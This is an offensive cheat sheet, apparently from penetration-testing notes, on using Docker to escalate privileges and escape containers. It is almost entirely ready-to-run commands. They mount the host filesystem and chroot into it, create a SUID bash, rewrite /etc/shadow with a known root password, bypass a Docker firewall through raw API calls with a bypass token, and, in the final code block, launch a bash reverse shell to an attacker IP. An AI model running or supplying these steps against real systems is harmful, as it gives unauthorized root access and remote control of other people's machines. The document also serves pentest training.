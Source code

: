 # Docker-Related Attack Vectors

### Docker Socket

* If you have user privileges in a host machine check these:&#x20;
  * Find `netstat -tunape` docker socket in localhost
  * export it to env `export DOCKER_HOST="tcp://localhost:2222"`
  * Look docker images in host machine and run it with connecting host
    * &#x20;`docker run -it -v /:/host ubuntu:20.04 bash`
    * `cd /host/`
    * `chroot ./ bash`
    * `find / -name password`



### Portainer Web UI access

* If you have portainer access, (via leaked creds or bruteforce)
  * Create privileged docker via portainer web UI&#x20;
  * Later connect there via from web ui of portainer:
    * `mount /dev/sda /mnt`
    * `cd /mnt`
    * `chroot ./ bash`
    * Then find credentials in root mounted&#x20;

### Use Case (Blocked by privileged mode but run in seccomp)

* You are user in victim machine and want to get root and blocked by docker firewall when you run `docker run -d --privileged ubuntu:latest`

Then you can run&#x20;

* `docker run -d --security-opt "seccomp=unconfined" modified-ubuntu`
* With that way we can start a container with seccomp profile set to unconfined.
*   `docker exec -it --privileged {container_id} bash`

    * `Check it with capsh --print`

    Then use [cap\_sys\_module](../container-breakouts/#cap\_sys\_module-capability) breakout technique to breakout the container.&#x20;

### Use Case (Blocked by Docker Firewall Api )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`cp /bin/bash /tmp/`

`docker run -it -v /tmp:/host ubuntu:18.04 bash`

in docker

`chown root:root /host/bash`

`chmod u+s /host/bash`

then `exit`

in host machine it self run&#x20;

`/tmp/bash -p`

your effective uid is 0.&#x20;

### Use Case (Blocked by Docker Firewall Api - 2 )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`test it with /tmp, /etc,`&#x20;

`docker run -it -v /etc:/host ubuntu:18.04 bash`

Check /host directory

then create password entry with openssl&#x20;

`openssl passwd -1 -salt abc abc`

take that string and put in /host/shadow puth that string in root place.&#x20;

then exit from docker and in host machine be root with the password that you have written in openssl command.



### Use Case (Blocked by Docker Firewall Api - 3 \[Using Docker API])

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

* When docker client is used, docker client interacts with the docker socket by using the HTTP API, the JSON data sent by docker client follows the JSON format mentioned on the docker API references. Identify the API version used by the docker client.
* [https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate](https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate)

So by sending request to docker socket we can get in contact with docker.&#x20;

Send that request with curl&#x20;

`curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create`

and it will create us a privileged container via API request

check it via

`docker ps -a`

start the container `docker start container_id`

and&#x20;

run `docker exec -it container_id bash`

now check host directory and you are in host machine.&#x20;



### Some Docker Rest API Commands that can be used

```
#Interact with the docker socket using curl and send a request to create a container.
#Specify “CAP_SYS_MODULE” value in the capability attribute.


curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d
'{"Image": "modified-ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}'
http:/v1.40/containers/create

# Don't forget to check docker port 2375 and later add that 
export DOCKER_HOST="tcp://localhost:2375"

# if you find bypass-token 
# check images

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
Token" http://Remote_IP:2375/images/json -s | jq

# Create a container from image and mount the root file in /host directory

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"Image":
"wolfcms","Env":["Bypass-Token=0a46f8ef7ba0611ccb16a0aeeac618a1"],"Binds":["/:/host"]}'
http://Remote_IP:2375/containers/create | jq

#Start that container

curl -X POST -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1"
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/start

# Running containers

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" http://Remote_IP:2375/containers/json -s | jq

# Reverse shell bash send with curl

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"AttachStdin":
false,"AttachStdout":false,"AttachStderr":false,"Cmd":["bash","-c","bash -i >&
/dev/tcp/Local_IP/4444 0>&1"],"Detach":true}'
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/exec | jq



```



